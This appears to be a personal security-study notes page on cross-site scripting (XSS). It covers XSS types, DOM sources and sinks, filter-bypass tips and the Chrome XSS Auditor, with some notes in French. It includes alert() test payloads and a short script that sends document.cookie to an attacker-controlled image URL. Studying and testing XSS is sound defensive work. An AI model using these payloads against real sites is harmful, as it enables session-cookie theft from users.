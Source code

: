 # XSS - Cross-Site Scripting

## Types

### Reflected

* The input is sent to the server and reflected on the page

### Stored

* Same but the input is also persisted in a db of some sort

### DOM

* The input is directly inserted into the DOM \(without being sent to the server at all\)
* **Sources** \(where the input goes\) :
  * `document.url`
  * `document.referrer`
  * `location`
  * `location.href`
  * `location.search`
  * `location.hash`
  * `location.pathname`
  * etc
* **Sinks** \(where the input ends up\) :
  * `element.innerHTML()`
  * `element.outerHTML()`
  * `eval()`
  * `setTimeout()`
  * `setInterval()`
  * `document.write()`
  * `document.writeln()`
  * etc
* A `<script>alert();</script>` inserted via `inner.html` won't be executed

### Polygots

XSS payloads made from a mixture of encoding/repetition/comments/etc that make it possible to pass filter/black list/etc. They're hard to read.

## Tips

* Check which chars are escaped by using them with an easily recognizable safe string
* Use lists with _burp intruder_
* If `<script>` aren't accepted, use events like `onfocus`, `onload`, etc
  * You can accumulate functions in these event by separating them with `;`
* `<sCRipt>` tag aren't case sensitive
* Other places for xss :
  * Concatenated http parameter pollution
  * Url of action form : `javascript:alert(1337)`
  * Url : `data:text/html,<script>alert(0)</script>`
* `google.com/jsapi?callback=alert` can be used to received a function in a callback
* Check : 

## XSS Auditor

* Il existe sur Chrome, pas sur firefox et je sais pas pour les autres
* Il risque de bientôt disparaître car il amène des vulnérabilités et permet aux devs de moins faire attention/moins corriger leurs failles XSS
* L’auditeur permet de remarquer des injections XSS. Pour cela, il compare ce qui est passé dans l’url aux scripts de la page \(très gros résumé\).
* Du coup, si on injecte le même script qu’un existant déjà dans la page, l’auditeur va le disable, pensant qu’il vient de nous, ce qui peut nous permettre d’ensuite faire d’autre choses

## Get a cookie with that

By example by injection this script :

```javascript
<script>
    document.write("<img src='...'?c="+document.cookie+"'/>");
</script>
```

The img will be added to the page and request it's source \(the attacker website\) with the cookie attached to it.

## Sources

* [Owasp testing guide v4](https://owasp.org/www-project-web-security-testing-guide/assets/archive/OWASP_Testing_Guide_v4.pdf)
* PwnFunction's [video](https://www.youtube.com/watch?v=EoaDgUgS6QA)
* [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w)'s multiple videos
* Misc research


